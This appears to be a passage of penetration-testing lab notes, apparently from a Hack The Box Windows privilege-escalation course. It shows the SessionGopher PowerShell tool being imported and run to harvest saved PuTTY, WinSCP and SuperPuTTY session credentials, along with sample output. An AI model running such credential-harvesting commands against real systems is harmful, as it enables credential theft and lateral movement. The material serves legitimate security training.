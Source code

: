 ## Even More Fun with Credentials

https://github.com/Arvanaghi/SessionGopher

Permit to extract PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials.

It searches the HKEY_USERS hive for all users who have logged into a domain-joined (or standalone) host and searches for and decrypts any saved session information it can find.

### Running SessionGopher as Current User

```
Import-Module .\SessionGopher.ps1

Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local
 

 
SuperPuTTY Sessions
 
 
Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
SessionName   : NIX03
Host          : nix03.inlanefreight.local
Username      : srvadmin
ExtraArgs     :
Port          : 22
Putty Session : Default Settings
```

